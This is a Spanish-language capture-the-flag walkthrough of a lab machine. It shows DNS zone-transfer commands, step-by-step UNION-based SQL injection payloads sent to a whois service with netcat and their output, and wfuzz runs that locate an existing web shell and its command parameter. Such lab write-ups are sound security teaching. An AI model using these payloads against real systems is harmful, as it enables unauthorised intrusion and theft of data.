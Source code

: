 ## Vulnerability Assessment {-}

### Attacke de transferencia de zona {-}

Para hacer attaques de transferencia de zona, utilizamos la heramienta **Dig** (que no hay que confundir con Dick ;)...)

1. Controllar que la resolucion de dominio functionna

    ```bash
    dig @10.10.10.155 supersechosting.htb
    ```

1. Como la resolucion functiona vamos a transmitir peticiones dns

    ```bash
    dig @10.10.10.155 supersechosting.htb ns
    dig @10.10.10.155 supersechosting.htb mx
    ```

1. Ejecutamos el attaque de transferencia de zona

    ```bash
    dig @10.10.10.155 supersechosting.htb axfr
    ```

Aqui vemos que es vulnerable y vemos unos dominios 

    - root.supersechosting.htb
    - ftp.supersechosting.htb
    - whois.supersechosting.htb
    - www.supersechosting.htb
    - mail1.supersechosting.htb
    - ns1.supersechosting.htb

Los añadimos al `/etc/hosts`

```r
    knitr::include_graphics("images/scavenger-hosts2.png")
```

Lo mirramos con firefox y el host `www.supersechosting.htb` nos muestra algo pero sigue siendo muy poca cosa.

#### Whois {-}

Como el puerto 43 esta abierto. podemos intentar connectar con la maquina para entablar peticiones whois.

```bash
nc 10.10.10.155 43
EEEE
#Output
% SUPERSECHOSTING WHOIS server v0.5beta@MariaDB10.1.37
% This query returned 0 object
```

Como vemos que MariaDB esta por detras intentamos ponerle una comilla

```bash
nc 10.10.10.155 43
'
#Output
% SUPERSECHOSTING WHOIS server v0.5beta@MariaDB10.1.37
1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB...
```

### SQL Injection por Whois {-}

Como el mensaje nos da `the right syntax to use near "''")` ya vemos como podemos montarnos el attacke.

```bash
nc 10.10.10.155 43
') ORDER BY 100#
#Output
Unknown column '100' in 'order clause'
```

Como vemos que no puede ordenarnos la query por la columna 100 quiere decir que no hay 100 columnas. Investigamos 
para encontrar cuantas columnas hay.

```bash
nc 10.10.10.155 43
') ORDER BY 4#
#Output
Unknown column '4' in 'order clause'

nc 10.10.10.155 43
') ORDER BY 3#
#Output
Unknown column '3' in 'order clause'

nc 10.10.10.155 43
') ORDER BY 2#
#Output
% This query returned 0 object
```

Ya vemos aqui que hay dos columnas. Podemos applicar un **UNION SELECT** para ver las etiquetitas a traves de las cualas
podemos injectar los datos con queries.

```bash
nc 10.10.10.155 43
') union select 1,2#
#Output
% This query returned 1 object
1
```

Vemos aqui que injectaremos por la data 1.

1. Qual es la base de datos

    ```bash
    nc 10.10.10.155 43
    ') union select database(),2#
    #Output
    % This query returned 1 object
    whois
    ```

1. Qual es la version

    ```bash
    nc 10.10.10.155 43
    ') union select version(),2#
    #Output
    % This query returned 1 object
    10.1.37-MariaDB-0
    ```

1. Qual son las tablas de la base de datos whois

    ```bash
    nc 10.10.10.155 43
    ') union select table_name,2 from information_schema.tables where table_schema = "whois"#
    #Output
    % This query returned 1 object
    customers
    ```

1. Qual son las columnas de la tabla customers

    ```bash
    nc 10.10.10.155 43
    ') union select column_name,2 from information_schema.columns where table_schema = "whois" and table_name = "customers"#
    #Output
    % This query returned 3 object
    iddomaindata
    ```

    Aqui podria ser turbio y puede ser mejor de enumerar columnas por columnas

    ```bash
    nc 10.10.10.155 43
    ') union select column_name,2 from information_schema.columns where table_schema = "whois" and table_name = "customers" limit 0,1#
    #Output
    % This query returned 1 object
    id

    nc 10.10.10.155 43
    ') union select column_name,2 from information_schema.columns where table_schema = "whois" and table_name = "customers" limit 1,1#
    #Output
    % This query returned 1 object
    domain

    nc 10.10.10.155 43
    ') union select column_name,2 from information_schema.columns where table_schema = "whois" and table_name = "customers" limit 2,1#
    #Output
    % This query returned 1 object
    data
    ```

1. Enumerar lo que hay a dentro de la columna domain

    ```bash
    nc 10.10.10.155 43
    ') union select domain,2 from customers#
    #Output
    % This query returned 4 object
    supersechosting.htbjustanotherblog.htbpwnhats.htbrentahacker.htb
    ```

    Aqui tambien se podria hacer un limit 0,1 1,1 etc...


Ya podemos añadir estos dominios en el `/etc/hosts`.

```r
    knitr::include_graphics("images/scavenger-hosts3.png")
```

Aqui ya intentamos connectar a estos nuevos dominios con Firefox pero sigue siendo lo mismo. Intentamos hacer nuevamente attaques 
de zonas con estos nuevos dominios

### Attacke de transferencia de zona Part 2 {-}

```bash
dig @10.10.10.155 justanotherblog.htb axfr
dig @10.10.10.155 pwnhats.htb axfr
dig @10.10.10.155 rentahacker.htb axfr
```

El ultimo dominio nos muestra un dominio turbio `sec03.rentahacker.htb`. Lo añadimos nuevamente en el `/etc/hosts` y por firefox
nos connectamos. Por fin algo nuevo.

Esta pagina nos hace pensar que gente ya a hackeado la pagina por otros *Haxxors*. Si es el caso, fuzzeamos la pagina.

### Web Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://sec03.rentahacker.htb/FUZZ
```

Aqui hay un poco de todo. Intentamos fuzzear por archivos **PHP**

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://sec03.rentahacker.htb/FUZZ.php
```

Ya encontramos un fichero **shell.php**. Visitamos la pagina por firefox y effectivamente parece una shell pero no tenemos el nombre
del commando usado para ejecutar los commandos. Lo buscamos con **WFUZZ** diciendole de occultar las respuestas que retornan 0 palabras.

```bash
wfuzz -c -t 200 --hc=404 --hw=0 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://sec03.rentahacker.htb/shell.php?FUZZ=whoami
```

encontramos el commando `hidden`



